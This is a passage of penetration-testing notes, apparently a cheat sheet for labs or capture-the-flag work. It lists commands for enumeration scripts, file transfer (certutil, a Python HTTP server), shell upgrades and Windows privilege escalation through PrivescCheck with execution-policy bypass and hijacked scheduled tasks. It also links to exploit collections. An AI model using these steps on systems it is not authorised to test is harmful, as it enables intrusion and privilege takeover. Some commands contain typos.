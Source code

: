 	- `ls -al /etc/cron*` : crontab files
- Automation Script
	- https://github.com/rebootuser/LinEnum
	- upload to `/temp`
	- add execute permissions and run, output to file

---

# Transferring_Files
- Python Web Server
	- `python -m SimpleHTTPServer 80` : python2 module
	- `python3 -m HTTP.server 80` : python3
- Windows - Download
	- `certutil -urlcache -f http://host/file.exe file.exe`
- Linux - Download
	- `curl`
	- `wget `

---

# Upgrading_Shells
- Non-interactive shell session
	- `/bin/bash -i` : launches bash interactive
	- `cat /etc/shells` to view available shells
	- `python --version` : see if python is available
		- `python -c 'import pty; pty.spawn("/bin/bash")'` : spawn bash
	- `perl -e 'exec "/bin/bash";'`
		- `perl -e 'system("/bin/bash");'`
	- can lookup different languages
- `env` check shell environment, add variables if not existing
	- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
	- `export TERM-xterm`
	- `export SHELL=bash`

---

# Privilege_Escalation
In order to elevate privileges you need to identify a vulnerability on the target. Depends on the operating system and the type of access that you initially get.

## Windows
- Powershell Automated Script
	- https://github.com/itm4n/PrivescCheck
	- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
	- `runas.exe /user:Administrator cmd` : enter password
- Windows Privilege Escalation Awesome Scripts
	- https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- Living off the Land Binaries and Scripts Libraries
	- https://lolbas-project.github.io/#
- Check scheduled tasks
	- `schtasks /query /tn vulntask /fo list /v` : view task information
	- `icacls c:\tasks\schtask.bat` : check who can run executable
	- `schtasks /run /tn vulntask` : run task
- Resources
	- - [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
	- [Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)
	- [RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)
	- [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
	- [Decoder's Blog](https://decoder.cloud/)